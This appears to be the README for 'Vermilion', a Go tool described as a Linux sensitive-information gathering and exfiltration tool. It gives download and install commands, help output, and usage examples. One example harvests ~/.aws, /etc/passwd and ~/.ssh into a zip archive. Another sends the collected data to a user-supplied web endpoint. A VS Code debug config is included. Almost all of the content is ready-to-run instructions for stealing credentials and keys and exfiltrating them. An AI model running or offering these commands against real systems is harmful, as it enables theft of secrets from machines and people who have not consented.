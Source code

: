 # Vermilion Docs


## Installation  

New version of the tool are released via Github.  
You can retrieve the release you want from [*this*](https://github.com/R3DRUN3/vermilion/releases/) page.  
Example via bash (wget):  
```console
wget https://github.com/R3DRUN3/vermilion/releases/download/v0.7.0/vermilion_0.7.0_linux_amd64.tar.gz
tar -xzf vermilion_0.7.0_linux_amd64.tar.gz
chmod +x vermilion
```  

## Usage
In order to see the tool helper run:  
```console
vermilion -h
```  

example output:  
```console
Vermilion - Linux sensitive info gathering and exfiltration tool

Usage:
  vermilion [flags]

Flags:
  -e, --endpoint string   Exfiltration endpoint URL
  -h, --help              help for vermilion
  -n, --noexf             Skip exfiltration and save locally
  -p, --paths string      Comma-separated list of paths to gather sensitive data from
```  

To run the tool with no exfiltration run:  

```console
vermilion --noexf
```  

The previous command produce a local `exdata` folder with a compressed (.zip) archive inside.  
The archive contains all exfiltrated data.  

If you want to only gather files from specific paths, specify the `-p` argument, for example:  
```console
vermilion -p ~/.aws,/etc/passwd,~/.ssh
```  



If you want to specify an endpoint for exfiltration run:  
```console
vermilion -e https://<your-web-endpoint>
```  





## Debug  

You can use [*vscode*](https://code.visualstudio.com/) for debugging.  
this repo already contains the `.vscode/launch.json` file:  

```json
{
    "version": "0.2.0",
    "configurations": [
        {
            "name": "Debug vermilion with VsCode",
            "type": "go",
            "request": "launch",
            "mode": "debug",
            "program": "${workspaceFolder}/main.go",
            "args": ["--noexf"],
            "env": {},
            "showLog": true,
            "cwd": "${workspaceFolder}"
        }
    ]
}
```  

Just modify this file to accomodate your configuration and launch the debug via vscode.  

## Test Exfiltration  

You can test data exfiltration locally by following [*these instructions*](../tests/exfiltration/README.md).  
  


